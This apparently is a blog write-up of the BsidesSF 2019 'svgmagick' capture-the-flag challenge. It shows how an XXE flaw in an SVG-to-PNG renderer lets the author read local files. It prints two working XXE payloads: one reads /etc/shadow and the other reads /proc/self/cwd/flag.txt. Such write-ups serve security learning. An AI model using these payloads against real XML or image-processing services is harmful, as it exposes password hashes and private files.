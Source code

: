 ```yaml
---
layout:     post
title:      'BsidesSF CTF 2019 - svgmagick'
date:       2019-03-11 0:00:00
author:     'W3ndige'
permalink: /:title/
category: 'BsidesSF 2019'
---
```


Another challenge that I've missed during the CTF was the ***scgmagick*** challenge rated for 100 points. Solution is very easy, but required some trial and error. Let's take a look. 

```text
When I render SVGs to PNGs, it's like magic!

Location - https://svgmagic-202d168a.challenges.bsidessf.net/

Note: flag.txt is in the working directory of the server.
```

My first guest was [ImageTragick](https://imagetragick.com/) vulnerability as the name of the challenge may suggest that. Unofrtunately, multiple tries did not find anything interesting, nothing worked so I've decided to move onto another technique. 

But while searching for different vulnerabilites, I've noticed that [XXE](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) is available and we can read files on the local filesystem with this simply crafted ***SVG***. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///etc/shadow" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

![LFI](/img/bsidessf/svgmagick-passwd.png){:class="img-responsive center-block"}

Now we have LFI with XXE, but another obstacle is reading file in current directory. We cannot do simple `file://flag.txt` as we get a `500` error. 

After some thinking, I used my knowledge from previous challenges that we can take a look at `/proc/` filesystem, especially `/proc/self`. With [that](https://unix.stackexchange.com/questions/94357/find-out-current-working-directory-of-a-running-process) StackOverflow answer we can try to get `/proc/self/cwd/flag.txt` to get the flag. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

![Flag](/img/bsidessf/svgmagick-flag.png){:class="img-responsive center-block"}
